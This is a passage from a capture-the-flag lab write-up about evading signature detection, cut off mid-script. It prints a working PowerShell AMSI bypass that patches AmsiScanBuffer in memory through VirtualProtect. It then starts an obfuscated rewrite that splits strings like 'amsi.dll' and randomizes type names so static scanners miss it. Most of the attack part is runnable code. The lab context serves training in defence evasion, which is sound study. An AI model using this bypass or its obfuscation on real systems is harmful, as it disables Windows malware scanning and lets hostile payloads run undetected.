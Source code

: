 ```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Once sufficiently obfuscated, submit the snippet to the webserver at `http://10.10.41.61/challenge-1.html`. The file name must be saved as `challenge-1.ps1`. If correctly obfuscated a flag will appear in an alert pop-up.

### Practical
---

Let's submit this file:

```powershell
# === scatter & assemble the DllImport definition ===
$k = 'ker' + 'nel' + '32'
$parts = @(
    "[DllImport(`"$k`")]",
    'public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);',
    "[DllImport(`"$k`")]",
    'public static extern IntPtr GetModuleHandle(string lpModuleName);',
    "[DllImport(`"$k`")]",
    'public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);'
)
$sb = [System.Text.StringBuilder]::new()
$parts | ForEach-Object { $sb.AppendLine($_) | Out-Null }
$MethodDef = $sb.ToString()

# === dynamically add the type with a random name ===
$ns = 'W' + 'in' + '32'
$typeName = 'K' + ([Guid]::NewGuid().ToString('N').Substring(0,8))
$K = Add-Type -MemberDefinition $MethodDef `
              -Name $typeName -Namespace $ns -PassThru

# === split up our targets so static scanners choke ===
$modName = 'a' + 'ms' + 'i' + '.' + 'dll'
$funcName = ('A','m','s','i','S','c','a','n','B','u','f','f','e','r') -join ''

# === resolve pointers ===
```